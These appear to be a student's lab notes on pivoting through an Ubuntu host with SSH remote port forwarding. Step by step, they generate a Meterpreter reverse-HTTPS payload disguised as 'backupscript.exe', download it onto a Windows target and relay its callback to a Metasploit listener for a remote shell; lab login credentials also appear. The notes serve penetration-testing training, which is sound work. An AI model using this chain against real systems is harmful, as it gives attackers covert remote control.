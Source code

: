 
# Remote/Reverse Port Forwarding with SSH

Scenario: A victim Windows server sits behind an Ubuntu pivot host, 10.129.15.50 and 172.16.5.129. Your attack host, 10.10.15.5 uses the Ubuntu machine to pivot to the Windows server.
The Window host has a limited outgoing connection to 172.16.5.0/23 because the Windows server does not have any direct connection with the attack host network. The attack host can gain
access via the Ubuntu server, using it as the pivot point, since it can connect to both the attack host and windows server. To gain a reverse shell on the Windows server you can:

1) Create a Meterpreter HTTPS payload via msfvenom using the Ubuntu server's IP address
2) Use port 8080 on the Ubuntu server to forward all reverse packets to your attackers host on port 8000, where the Metasploit listener is running

### Creating Windows Payload
```python
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configure + Starting the multi/handler
```python
msf6 > use exploit/multi/handler
```

### Transferring Payload to Pivot Host
```python
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host
```python
python3 -m http.server 8123
```

### Downloading Payload on Windows Target
```PowerShell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH Remote Port Forwarding
```python
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

>[!tip]
> -vN tells SSH to use verbose mode and not prompt for the login shell
> -R asks the Ubuntu server to listen on targetIPAddress:8080 and forward
> all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000

# Questions

Username
```python
ubuntu
```

Password
```
HTB_@cademy_stdnt!
```

IP
```python
10.129.1.10
```

SSH
```python
ssh ubuntu@10.129.1.10
```
### 1) Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target?

Answer:
```python
172.16.5.129
```

First I need to generate the msfvenom payload for Windows
```go
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.129.1.10 -f exe -o backupscript.exe LPORT=8080
```

Now I must configure the multi/handler in metasploit
```go
use exploit/multi/handler
```

```go
set payload windows/x64/meterpreter/reverse_https
```

```go
set lhost 0.0.0.0
```

```go
set lport 8000
```

```go
run
```

Copy payload to Ubuntu server
```go
scp backupscript.exe ubuntu@10.129.1.10:~/
```

In order for the Windows host to download the file, the Ubuntu server must host it since that's the only route the Windows machine has access to too
```go
python3 -m http.server 8123
```

Pivot to Windows host

Username
```go
victor
```

Password
```go
pass@123
```

IP
```go
172.16.5.19
```

Proxychains
```go
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

After remoting into the Windows machine, download the `backupscript.exe`. Remember to run Powershell as Administrator
```python
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

From your attacker machine, perform SSH remote port forward using the creds of the Ubuntu box
```python
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN
```

Execute the `backupscript.exe` on the Windows target and the connection to your attacker machine will be established.